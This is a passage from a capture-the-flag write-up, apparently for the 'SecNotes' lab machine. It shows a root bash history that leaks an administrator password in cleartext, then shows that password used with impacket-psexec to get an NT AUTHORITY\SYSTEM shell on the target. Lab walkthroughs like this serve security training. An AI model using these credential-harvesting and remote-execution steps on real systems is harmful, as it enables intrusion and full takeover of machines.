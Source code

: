```
               3 File(s)          3,658 bytes
               3 Dir(s)  13,901,787,136 bytes free

C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs\root>type .bash_history
type .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history 
less .bash_history
exit

```

###### Getting_Admin_Shell_Impacket
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/SecNotes.htb]
└─# impacket-psexec 'administrator':'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.97.....
[*] Found writable share ADMIN$
[*] Uploading file kpwgZPaV.exe
[*] Opening SVCManager on 10.10.10.97.....
[*] Creating service HoBo on 10.10.10.97.....
[*] Starting service HoBo.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

Get your Root Flag